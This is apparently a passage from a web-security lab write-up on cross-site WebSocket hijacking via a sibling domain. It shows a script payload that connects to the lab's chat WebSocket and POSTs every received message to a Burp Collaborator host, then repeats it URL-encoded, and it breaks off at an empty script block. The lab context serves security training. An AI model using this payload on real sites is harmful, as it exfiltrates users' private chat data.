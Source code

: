 <img src="images/image64.png" alt="third" width="800">

In the proxy tab in response we can see a sibling domain

**Step 5:**

First we check it weather its working or not

Now we first encode our previous exploid but change the collaborator payload

New exploit
```
<script>  
    var ws = new WebSocket('wss://0a13006004d6afe9801e0d5800f1009a.web-security-academy.net/chat');  
    ws.onopen = function() {  
        ws.send("READY");  
    };  
    ws.onmessage = function(event) {  
        fetch('https://0mnc6oxq8s7hkof7bgsdxhovlmrdf73w.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});  
    };  
</script>
```
URL encoded
```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%31%33%30%30%36%30%30%34%64%36%61%66%65%39%38%30%31%65%30%64%35%38%30%30%66%31%30%30%39%61%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%30%6d%6e%63%36%6f%78%71%38%73%37%68%6b%6f%66%37%62%67%73%64%78%68%6f%76%6c%6d%72%64%66%37%33%77%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e%0a
```
Now we add this payload in this script
```
<script>

```